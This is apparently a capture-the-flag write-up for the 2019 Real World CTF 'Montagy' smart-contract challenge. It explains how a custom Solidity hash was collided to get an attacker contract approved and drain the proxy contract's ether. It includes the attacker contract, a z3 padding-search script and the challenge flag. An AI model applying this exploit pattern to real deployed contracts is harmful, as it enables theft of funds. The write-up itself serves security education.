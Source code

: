 
[Web version](https://x9453.github.io/2020/01/26/Real-World-CTF-Finals-2019-Montagy/)

# Challenge

* Type: Blockchain
* Keywords: Smart contract, Solidity
* [Source files & exploit](https://github.com/x9453/ctf-write-ups/tree/master/real-world-ctf-final-2019/Montagy/)

# Description

> See Montagy.txt in the source files

# Solution

## TL;DR

By the `newPuzzle` method, create a new puzzle that has the same tag value as one of the existing puzzles to pass the `isOfficialChecksum` check. Let our new puzzle call `solve` to the proxy contract, and the proxy contract will send out all the ether it has.

## Detailed Write-up

In this challenge, our goal is to let the balance of the proxy contract become 0, and then we will receive the flag in a transaction sent from the game server.

The code of the proxy contract is:

```javascript=
pragma solidity ^0.5.11;

contract Montagy{
    address payable public owner;
    mapping(bytes32=>bool) isOfficialChecksum;
    ...
    
    modifier onlyPuzzle(){
        require(puzzleChecksum[msg.sender] != 0);
        _;
    }
    ...
    
    function registerCode(bytes memory a) public onlyOwner {
        isOfficialChecksum[tag(a)]=true;
    }
    
    function newPuzzle(bytes memory code) public onlyGameOn returns(address addr){
        bytes32 cs = tag(code);
        require(isOfficialChecksum[cs]);
        
        addr = deploy(code);
        lastchildaddr=addr;
        puzzleChecksum[addr] = cs;
    }
    
    function solve(string memory info) public onlyGameOn onlyPuzzle {
        owner.transfer(address(this).balance);
        winnerinfo = info;
    }
    ...
    
    function tag(bytes memory a) pure public returns(bytes32 cs){
        assembly{
            let groupsize := 16
            let head := add(a,groupsize)
            let tail := add(head, mload(a))
            let t1 := 0x21711730
            let t2 := 0x7312f103
            let m1,m2,m3,m4,p1,p2,p3,s,tmp
            for { let i := head } lt(i, tail) { i := add(i, groupsize) } {
                s := 0x6644498b
                tmp := mload(i)
                m1 := and(tmp,0xffffffff)
                m2 := and(shr(0x20,tmp),0xffffffff)
                m3 := and(shr(0x40,tmp),0xffffffff)
                m4 := and(shr(0x60,tmp),0xffffffff)
                for { let j := 0 } lt(j, 0x4) { j := add(j, 1) } {
                    s := and(add(s, 0x68696e74),0xffffffff)
                    p1 := sub(mul(t1, 0x10), m1)
                    p2 := add(t1, s)
                    p3 := add(div(t1,0x20), m2)
                    t2 := and(add(t2, xor(p1,xor(p2,p3))), 0xffffffff)
                    p1 := add(mul(t2, 0x10), m3)
                    p2 := add(t2, s)
                    p3 := sub(div(t2,0x20), m4)
                    t1 := and(add(t1, xor(p1,xor(p2,p3))), 0xffffffff)
                }
            }
            cs := xor(mul(t1,0x100000000),t2)
        }
    }
}
```

The full source code can be found on Ropsten: [Proxy contract](https://ropsten.etherscan.io/address/0xd068fcc44525569fb593189c8f22827cf0f50f3f#code)

By inspecting the transactions to the proxy contract, we may notice that the owner had registered and deployed two puzzles via the `registerCode` and `newPuzzle` methods. Also, their source code can be found on Ropsten: [side contract 1](https://ropsten.etherscan.io/address/0xe45d9f944fe4aa364b7ea958f694fb59af8cdee6#code), [side contract 2](https://ropsten.etherscan.io/address/0x6e6537d0fd1f12ccbcdbb5a9e832885362239aa9#code). However, these two puzzles are not computationally feasible to solve.

How about creating a new puzzle that calls `server.solve()` directly? To make this happen, the new puzzle should be deployed via `newPuzzle` and should pass the `isOfficialChecksum` check at line 20. While only the owner is allowed to register a new checksum (tag value), we have to construct a new puzzle that has the same tag value as one of the existing puzzles.

First, write a contract which simply calls `solve` to the proxy contract:

```javascript=
contract P3 {
    Montagy public server;
    constructor() public {
        server = Montagy(0xD068fcC44525569fB593189c8f22827cF0f50f3f);
    }
    function do_solve() public {
        server.solve('balsn');
    }
}
```

Compile this contract and get its deploy bytecode. Note that whatever we pad at the end of the bytecode will not change the deploy result. Therefore, we choose to find proper padding to our bytecode to control its tag value. According to the source code of the proxy contract, to calculate the tag value, the method `tag` iterates from the start of the bytecode to the end. Since we can calculate the tag value of the unpadded bytecode beforehand, we only have to focus on the last iteration, where the padding is the input bytes.

Here is a script for finding proper padding:

```python=
from z3 import *

def find(last, target):
    t1, t2 = int(last[:8], 16), int(last[8:], 16)
    tar1, tar2 = int(target[:8], 16), int(target[8:], 16)

    s = 0x6644498b
    s = BitVecVal(s, 256)
    m1 = BitVec('m1', 256)
    m2 = BitVec('m2', 256)
    m3 = BitVec('m3', 256)
    m4 = BitVec('m4', 256)

    for j in range(4):
        s = (s + 0x68696e74) & 0xffffffff
        p1 = (t1<<4) - m1
        p2 = t1 + s
        p3 = (t1>>5) + m2
        t2 = (t2 + (p1^(p2^p3))) & 0xffffffff
        p1 = (t2<<4) + m3
        p2 = t2 + s
        p3 = (t2>>5) - m4
        t1 = (t1 + (p1^(p2^p3))) & 0xffffffff

    sol = Solver()
    sol.add(And(t1 == tar1, t2 == tar2))
    if sol.check():
        m = sol.model()
        m_l = map(lambda x: m[x].as_long(), [m4, m3, m2, m1])
        pad = 0
        for x in m_l:
            pad <<= 0x20
            pad |= x
        return hex(pad)[2:].zfill(32)
    else:
        raise Exception('No solution')
```

Append the padding to our deploy bytecode, and call `newPuzzle` in the proxy contract with the padded bytecode as the parameter. After our contract is deployed, call the `do_solve` method in our contract. All ether that the proxy contract has will be sent out, and then we will get the flag: `rwctf{cOd3_i5_CH3ep_sHoW_mE_tHe_OPcdE...Oh_&&_1_CUP_of_T_PlEA53_:P}`
